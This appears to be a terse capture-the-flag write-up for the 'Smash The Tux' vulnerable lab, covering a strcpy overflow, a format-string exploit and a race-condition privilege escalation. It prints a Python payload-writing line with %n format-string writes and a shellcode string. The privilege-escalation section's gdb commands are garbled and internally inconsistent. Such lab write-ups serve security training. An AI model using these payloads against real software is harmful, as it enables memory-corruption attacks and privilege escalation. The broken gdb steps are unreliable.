 
# Smash The Tux

## 0x00
- strcpy buffer overflow

simply pass in the large buffer and point to the address of the start of the buffer for your boomcode


## 0x01
- format string, no validation

```bash
open('/tmp/foo.bin', 'wb').write("\xcc\xcc\xcc\xcc" + '\x54\x97\x04\x08' + '\x55\x97\x04\x08' + '\x56\x97\x04\x08' + '\x57\x97\x04\x08'+ 'A'*12 + '%5$n' + 'A'*0xD3 + '%6$n' + 'foobarbaZbar' + '%7$n' + 'A'*0xc0 + '%8$n' )
```

- some boom code
```bash
SHELLCODE += '\xeb\x13\x59\x31\xc0\xb0\x04\x31\xdb\x43\x31\xd2\xb2\x0f\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe8\xff\xff\xff\x62\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6d\x21\x0a\x0d'
```

## 0x02
- privilege escalation
- theres a race conditions for uid and accessing the file, so we will override the memory via gdb as user and show it works

objdump at stat, first add, change argv to be ".readthis"

bp call to fgets
gdb > x/16s 0xbset {char [size]}

`x/16s set charset {char[0x0a]} 0xbfffff8f5=".readthis"`


{charset ".readthis"

